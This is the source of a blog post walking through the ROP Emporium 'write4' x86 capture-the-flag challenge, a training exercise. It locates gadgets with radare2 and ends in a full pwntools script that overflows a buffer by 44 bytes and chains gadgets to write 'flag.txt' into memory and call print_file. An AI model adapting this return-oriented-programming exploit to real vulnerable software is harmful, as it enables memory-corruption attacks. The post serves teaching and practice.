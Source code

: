 ```yaml
---
layout: post
title:  "ROP Emporium write4 Writeup (x86)"
date:   2024-06-04 13:15:45 -0400
categories: rop-emporium write4
tags: rop-emporium write4 x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[fourth challenge](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `print_file()` with the name of the
file to read as the first argument. The string `flag.txt`
doesn't exist in the binary, so we will need to write it
there ourselves!

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to find this value see the
[first writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
for this series.

### Write Gadget
> Check out `usefulFunction`'s assembly
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. We will need to write `flag.txt` to
memory so let's check the `usefulGadgets` section
in `usefulFunction`
We can view the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful gadgets](/images/write4/x86-useful-gadgets.png)

The `mov` instruction will set the value from
`ebp` (4 byte qword) into the dereferenced address 
set in `edi`. This is what we'll use to write to memory!
The gadget address is `0x08048543`

### Mov Arguments
> Find a gadget to control `edi` and `ebp` along with
> a writable program segment
{: .prompt-tip }
Now we need to find a gadget which can control `edi` and
`ebp` to control what to write and where to write it. We
can use the `/R` command to search for gadgets
```
/R pop edi
```

![mov args gadget](/images/write4/x86-mov-args-gadget.png)

There are a few which come up but might as well use
this one. Remember we can control where we jump so we
can skip the `pop ebx` and `pop esi` instructions 
entirely! The address we'll use to set `edi` and 
`ebp` is `0x080485aa`

Now that we can control where to write and what to write,
where and what should we write? We want to open `flag.txt`
so we'll set that into `ebp`. But we need to find a
suitable location to write to. We can view writable
sections with the command `iS`

![writable sections](/images/write4/x86-writable-sections.png)

We need to find a section with the `w` permission and a
size of at least 8 bytes (0x08). Let's use the `.data`
section which has the address `0x0804a018`

The python code to write data to an address looks
like this
```python
#!/bin/python3
from pwn import *

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 4 bytes of a string
    for i in range(0, len(s), 4):
        # address to write to
        edi = p32(addr + i)

        # prevent slice out of bounds
        j = i+4
        if j >= len(s):
            j = len(s)

        # 4 bytes to write
        ebp = p32(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p32(pop_edi_ebp)
        payload += edi
        payload += ebp

        # write bytes
        payload += p32(write_gadget)
    return payload
```

### print_file()
> Find the `print_file` address and a gadget which
> `pop`s any register
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`

![print-file-addr](/images/write4/x86-print-file-addr.png)

`print_file` is part of a library so we can just use the
address of corresponding `plt` entry, `0x080483d0`

Now we need to set the first argument to this function.
According to the
[x86 calling convention](https://aaronbloomfield.github.io/pdr/book/x86-32bit-ccc-chapter.pdf){:target="_blank"}{:rel="noopener noreferrer"},
function arguments are passed through the stack. Remember
from the
[callme challenge](){:target="_blank"}{:rel="noopener noreferrer"}
that we'll need to set a `pop` gadget as a function's return
address to keep the stack maintained for additional function
calls. We can just use the `pop` gadget we found earlier!

![pop gadget](/images/write4/x86-mov-args-gadget.png)

Since we only want to `pop` one argument off of the
stack we can just execute `pop ebp`. This makes our
gadget address `0x080485ab`

Here's a reusable function to add arguments to the stack
in `x86`
```python
#!/bin/python3
from pwn import *

# add arguments to stack (x86)
def add_args(args):
    # fix stack after func returns
    payload = p32(pop_ebp)
    for a in args:
        payload += p32(a)
    return payload
```

## Exploit
We finally have everything to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x08048543   # mov qword [edi], ebp
pop_edi_ebp = 0x080485aa
data_addr = 0x0804a018
print_file_addr = 0x080483d0
pop_ebp = 0x080485ab

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 4 bytes of a string
    for i in range(0, len(s), 4):
        # address to write to
        edi = p32(addr + i)

        # prevent slice out of bounds
        j = i+4
        if j >= len(s):
            j = len(s)

        # 4 bytes to write
        ebp = p32(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p32(pop_edi_ebp)
        payload += edi
        payload += ebp

        # write bytes
        payload += p32(write_gadget)
    return payload

# add arguments to stack (x86)
def add_args(args):
    # fix stack after func returns
    payload = p32(pop_ebp)
    for a in args:
        payload += p32(a)
    return payload

# create payload
payload = b'A' * 44

# write flag.txt to data section
payload += write_str(data_addr, b'flag.txt')

# call print_file(flag_txt_addr)
payload += p32(print_file_addr)
payload += add_args([data_addr])

# send payload + receive flag
io = process('./write432')
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/write4/x86-flag.png)

## Conclusion
In this challenge we learned how to write arbitrary
data to memory. By this point we should be relatively
comfortable finding and chaining gadgets together. Next
we'll learn how to deal with forbidden characters in
our payload.

[Previous Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (badchars)

[write4 x64]({% post_url 2024-06-03-rop-emporium-write4-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

